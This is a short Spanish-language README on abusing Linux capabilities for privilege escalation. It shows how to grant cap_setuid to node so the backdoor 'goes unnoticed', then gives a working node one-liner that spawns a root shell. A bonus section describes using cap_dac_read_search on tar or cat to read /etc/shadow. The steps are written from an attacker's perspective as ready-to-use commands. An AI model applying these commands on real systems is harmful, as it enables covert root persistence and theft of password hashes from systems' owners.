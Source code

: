 # Capabilities

## Premisa

**CAP_SETUID** parece la capability mas directa para asegurar una escalada de privilegios rápida, que al final, es lo que andamos buscando. En este caso vamos a asignarle dicha capability a node, una herramienta muy utilizada en entornos de desarrollo por lo que quizá logremos que pase un poco desapercibida

### Pasos a seguir

1. Le asignamos la capability al binario
```
sudo setcap cap_setuid+ep /usr/bin/node
```
2. Entramos con el usuario que queremos usar para escalar privilegios y ejecutamos la siguiente línea.
```
node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
```

3. Y... root  

![which view](img/setacap-node.png)

## Bonus

Investigando un poco mas(En GTFObins solo mencionan la capability cap_setuid), me he encontrado con algunas situaciones plausibles de mal uso de otra capabilities como **cap_dac_read_search**. En este caso por ejemplo podríamos encontrarnos con que un administrador le ha asignado esta capability por ejemplo, al binario tar(o zip, o algún binario que pueda usarse como excusa para realizar algún tipo de backup).

Esta capabilty otorga permisos de lectura a la aplicación en cuestión.  
### ¿Porque podría darse el caso?
Bueno, en un entorno de producción podemos encontrarnos con carpetas que no sean legibles por "otros", como pueden ser algunas carpetas de tomcat donde ```/var/log/tomcat9``` no están accesibles(por lo que incluso en un descuido mayor, hasta podríamos encontrarnos esta capability incluso en cat, tail... etc) o incluso en situaciones donde se haya diseñado algún tipo de política de backups que explote esta capability(sin permiso de lectura no se pueden copiar ficheros y por lo tanto hacer un respaldo de ellos)  
### ¿Donde está el peligro?
Pues sencillamente, una aplicación con esta capability podría tener acceso a ficheros como ```/etc/shadow``` y darle al atacante una información valiosísima.

![which view](img/setcap-tar.png)
![which view](img/setcap-tar-done.png)